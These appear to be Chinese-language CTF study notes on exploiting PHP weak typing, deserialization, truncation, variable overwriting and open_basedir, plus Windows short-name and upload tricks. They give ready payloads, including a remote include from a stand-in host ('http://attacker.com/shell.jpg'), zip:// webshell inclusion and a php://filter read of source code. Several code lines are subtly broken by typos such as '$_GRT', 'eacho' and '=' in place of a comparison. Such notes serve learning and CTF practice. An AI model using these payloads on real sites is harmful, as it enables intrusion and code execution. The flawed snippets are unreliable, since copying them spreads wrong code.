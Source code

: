 ## 特性利用
#特性利用
### 1. PHP语言特性
#PHP特性
#### 1.1 弱类型
```php
''==0==false
'123'==123
'abc'==0
'123a'==123
'0x01'=1
'0e123456789'=='0e987654321'
[false]==[0]==[NULL]==['']
NULL==false==0
true==1
```
\=\=和\=\=\=均可比较两个值是否相等，前者会在值不变的基础上对其进行类型转换
```php
if($_GRT['a']!=$_GET['b'] && md5($_GRT['a'])=md5($_GRT['b'])){
	echo $flag;
}
```
可以通过~~[md5碰撞](https://goo.gl/KV5ZQn)~~来解决，MD5返回字符串，若以0e开头则会被识别为科学计数法表示的数字0`aabg7XSs`和`aabC9RqS`满足条件
```php
if($_GRT['a']!=$_GET['b'] && md5($_GRT['a'])===md5($_GRT['b'])){
	echo $flag;
}
```
可以提交`a[]=1&b[]=2`MD5在的参数为数组时会报错并返回NULL成功绕过
容易出现判断错误的还有很多，如strpos
```php
if(strpos(str1,str2)==false){//当str1中不包含str2时
	...;
}
```
当str1在str2开头时函数返回值是0，而0\=\=false，成功绕过
### 1.2 反序列化漏洞
#反序列化 
[[../Lang/PHP/魔术方法|魔术方法]]：`__construct__`（对象创建时调用）、`__destruct__`（PHP脚本结束时调用）、`__toString__`（对象被当作string使用时调用）、`__sleep`、`__weakup`
如果代码复杂，使用了大量的类，往往需要构造ROP链来进行利用，参考[phithon对joomla漏洞的分析](https://www.leavesongs.com/PENETRATION/joomla-unserialize-code-execute-vulnerability.html)
### 1.3 截断
1. NULL字符截断（%00，~~过长~~）
2. 不正确的使用iconv函数
```php
<?php
	$file = $_GET['file'].'.tpl.html';
	include(iconv("UTF-8","gb2312",$file))
?>
```
在file中遇到非法的UTF8字符时iconv会截断，UTF8中单个”\\x80-\\xff“都非法。这个漏洞只在windows系统中存在，在新版PHP中已经得到了修复
### 1.4 [[../Lang/PHP/流|伪协议]]
如果在php.ini的设置中让`allow_url_include=1`，即允许远程包含时可以令参数为
`?file=http://attacker.com/shell.jpg`
如果我们能上传自定义图片的话，可以将webshell改名为shell.php并压缩成zip上传，然后再利用zip协议包含
`?file=zip://uploads/random.jpg%23shell.php`
**phar协议也有类似效果**
还可以通过伪协议读取到部分文件，如果服务器上有一个index.php
`php://filter/convert.base64-encode/resource=index.php`
得到index.php经过base64编码后的字符串
### 1.5 变量覆盖
#### 1.5.1 函数使用不当
1.[[../Lang/PHP/function&class/extract| extract函数]]
```php
<?php
	$auth = false;
	extract($_GET);
	if($auth){
		echo "flag"
	}
	else{
		echo "Access Denied.";
	}
?>
```
extract函数将GET传入的数据转换为变量名和变量的值
`?auth=1`
2. [[../Lang/PHP/function&class/parse_str|parse_str]]
```php
<?php
	$auth = false;
	parse_str($_SERVER['QUERY_STRING']);
	if($auth){
		echo "flag"
	}
	else{
		echo "Access Denied.";
	}
?>
```
利用同上
3. [[../Lang/PHP/function&class/import_request_variables|import_request_variables]]
```php
<?php
	$auth = false;
	import_request_variables('G');
	if($auth){
		echo "flag"
	}
	else{
		echo "Access Denied.";
	}
?>
```
利用同上
#### 1.5.2 配置不当
PHP版本<5.4，register_globals=ON时会导致全局变量覆盖漏洞
```php
<?php
	if($auth){
		echo "flag"
	}
	else{
		echo "Access Denied.";
	}
?>
```
用户传入auth即可进入语句块，如果在if前初始化了auth则不会触发
#### 1.5.3 代码逻辑漏洞
PHP中的可变变量\$\$可以让一个普通变量的值作为这个可变变量的变量名
新版本PHP移除了register_globals和import_request_variables，有些开发者选择foreach遍历数组注册变量，可能会发生变量覆盖漏洞
```php
<?php
	$auth = false;
	foreach($_GET as $key => $value){
		$$key = $value;
	}
	if($auth){
		echo "flag"
	}
	else{
		echo "Access Denied.";
	}
?>
```
利用同上
#### 1.6 防护绕过
常用防护手段open_badedir和diaable_function
- open_basedir是PHP设置中为防御PHP跨目录进行文件目录读写的方法，所有PHP中有关文件读写的函数都会经过其检查
常见绕过方法DirectoryIterator+Glob
```php
<?php
printf('<b>open_basedir:%s</b><br />',ini_get('open_basedir'));
$fiel_list = array();
//normal files
$it = new DirectoryIterator("glob:///*");
foreach($it as $f){
	$file_list[] = $f->__toString();
}
//special files (starting with a dot)
$it = new DirectoryIterator("glob:///*");
foreach($it as $f){
	$file_list[] = $f->__toString();
}
sort($file_list);
foreach($file_list as $f){
	eacho "{$f}<br />"
}
?>
```
- disable_function绕过方式很灵活，依赖于系统层面的漏洞，利用shellshock、imagemagick等组件的漏洞进行绕过操作，或以来系统环境，利用环境变量LD_PRELOAD等漏洞进行绕过。若权限足够还可以尝试使用PHP调用数据库UDF的方法来执行命令
### 2. windows系统特性
#### 2.1 短文件名
IIS6环境下[IIS短文件名扫描工具](https://github.com/lijiejie/IIS_shortname_Scanner)
windows下的Apache环境里除了能爆破服务器文件，还能通过段文件直接下载长文件
”discuz的备份文件泄露“就是利用windows的短文件名去猜解，极大减少了枚举量
#### 2.2 文件上传
通过追加高位字符\[\\x80-\\xff\]进行截断，等效的还有`::$data`，利用`:$DATA Alternate Data Stream`，参考OWASP
**冒号很特殊，上传时将后缀改为`.php:.png`形式，在系统中最后得到的是0字节的php后缀文件，起到了截断效果，但没能成功写入内容。**